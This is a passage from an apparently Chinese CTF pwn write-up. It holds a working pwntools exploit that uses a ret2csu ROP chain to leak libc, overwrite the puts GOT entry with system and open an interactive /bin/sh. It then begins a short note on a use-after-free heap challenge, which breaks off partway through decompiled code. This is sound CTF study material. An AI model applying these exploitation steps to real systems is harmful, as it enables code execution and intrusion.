     pop_rdi_ret = 0x400693
    pop_bx_bp_12131415_ret = 0x40068A
    vuln_call = 0x400611
    bss = 0x601060
    libc_init = 0x400670
    ret = 0x4004ae
    payload = []
    payload += [pop_rdi_ret, elf.got["read"], elf.plt["puts"]] # leak
    payload += [pop_bx_bp_12131415_ret, 0, 1, elf.got["read"], 0, elf.got["puts"], 8, 0x400670, 0,0,0,0,0,0,0] # read(0, got[puts], 8)
    payload += [pop_rdi_ret, bss, elf.plt["puts"]] # system("/bin/sh")
    
    def push(data):
        pl = "B" * 10
        pl += p64(data)
        pl += p64(vuln_call)
        once("A" * 0x1, pl)
    
    def once(bss, stack):
        p.recvuntil("bss:\n")
        p.send(bss)
        p.recvuntil("stack:\n")
        p.send(stack)


​    
    push(payload[-1])
    for i in xrange(1, len(payload)):
        push(payload[-i-1])
    
    #gdb.attach(p, "b *0x40068A\nc")
    
    pl = "B" * 10
    pl += p64(0)
    pl += p64(ret)
    once("/bin/sh\x00".ljust(0x10, "C"), pl)
    
    t = p.readline()[:6]
    puts = u64(t + "\x00\x00")
    base = puts - libc.symbols["read"]
    log.info("base: %lx", base)
    system = base + libc.symbols["system"]
    
    p.send(p64(system))
    
    p.interactive()
    p.close()

思路就是利用通用rop，改写got表还有一些调用约定了，没啥好说的

***11.secret garden***
很水的一道堆题
没啥好说的，主要就是uaf

    int sub_DD0()
    {
      int result; // eax
      _DWORD *v1; // rax
      unsigned int v2; // [rsp+4h] [rbp-14h]
      unsigned __int64 v3; // [rsp+8h] [rbp-10h]
    